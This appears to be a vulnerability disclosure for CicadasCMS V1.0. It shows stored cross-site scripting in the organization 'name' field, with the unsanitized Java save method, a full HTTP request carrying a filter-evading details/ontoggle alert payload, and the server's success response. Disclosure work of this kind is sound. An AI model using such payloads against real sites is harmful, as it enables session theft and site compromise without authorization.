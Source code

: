 CicadasCMS - Cross Site Scripting on (cms/service/impl/OrganizationServiceImpl.java name parameter) 

Vendor Homepage:
```
https://gitee.com/westboy/CicadasCMS/branches
```

Version: 

```
V1.0
```

Tested on: 

```
JAVA, Apache, MySQL
```

Affected Page:

```
cms/service/impl/OrganizationServiceImpl.java
```

On this page, name parameter of the pojo is vulnerable to Cross Site Scripting

```
    public String save(TSysOrg pojo) {
         if(orgMapper.insertSelective(pojo)>0)
            return JsonUtil.toSUCCESS("添加成功！","org-tab",false);
        return JsonUtil.toERROR("添加成功！");
    }
```

Request:

```
POST /system/org/save HTTP/1.1
Host: 172.16.99.36
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 98
Origin: http://172.16.99.36
Connection: keep-alive
Referer: http://172.16.99.36/system
Cookie: SESSION=3d6a72f7-d5f1-44a9-96db-ad82e7655d77; bjui_theme=blue
Priority: u=0
Pragma: no-cache
Cache-Control: no-cache

id=&name=%3Cdetails+open+ontoggle%3Dtop%5B'ale'%2B'rt'%5D(1)%3E&code=1111&pid=0&telPhone=&address=
```

Response:

```
HTTP/1.1 200 
Content-Type: application/json;charset=UTF-8
Content-Length: 120
Date: Sun, 21 Sep 2025 12:37:13 GMT

{"tabid":"org-tab","forward":"","message":"添加成功！","closeCurrent":false,"forwardConfirm":"","statusCode":"200"}
```
<img width="2484" height="1311" alt="image" src="https://github.com/user-attachments/assets/28533988-3a9b-4924-8bee-4b754670d02d" />
